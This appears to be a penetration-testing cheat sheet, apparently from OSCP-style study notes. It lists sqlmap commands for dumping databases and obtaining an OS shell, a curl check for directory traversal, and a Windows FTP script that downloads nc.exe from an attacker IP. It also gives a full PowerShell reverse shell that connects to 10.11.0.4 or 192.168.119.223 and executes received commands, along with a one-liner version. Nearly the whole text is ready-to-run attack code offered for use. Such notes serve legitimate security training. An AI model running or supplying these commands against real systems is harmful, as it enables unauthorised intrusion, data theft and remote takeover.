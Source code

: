 ### SQLMap Commands
Description | Command
------------ | -------------
| Basic |												sqlmap -u http://url.com/debug.php?id=1 -p "id" |
| Dump database |										sqlmap -u http://url.com/debug.php?id=1 -p "id" --dbms=mysql --dump |
| Get a shell  |									sqlmap -u http://url.com/debug.php?id=1 -p "id" --dbms=mysql --os-shell |
| Post text file |									sqlmap -r search-test.txt -p tfUPass |

## Compare two files
```
curl -i 'http://path...' -s > before
curl -i 'http://path.../?list=../../../' -s > after
diff before after
```

## Automate FTP on Windows
```
C:\Users\offsec>echo open 192.168.119.223 21> ftp.txt 
C:\Users\offsec>echo USER offsec>> ftp.txt 
C:\Users\offsec>echo p@ssw0rd>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt 
C:\Users\offsec>echo GET nc.exe >> ftp.txt 
C:\Users\offsec>echo bye >> ftp.txt

C:\Users\offsec> ftp -v -n -s:ftp.txt
```

## Reverse Shells
### PowerShell Reverse Shell (Connect FROM this machine TO netcat )
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) 
{
     $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
     $sendback = (iex $data 2>&1 | Out-String );
 	 $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
     $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
     $stream.Write($sendbyte,0,$sendbyte.Length);
     $stream.Flush(); 
} 
$client.Close(); 

One liner of the above code:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.223',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
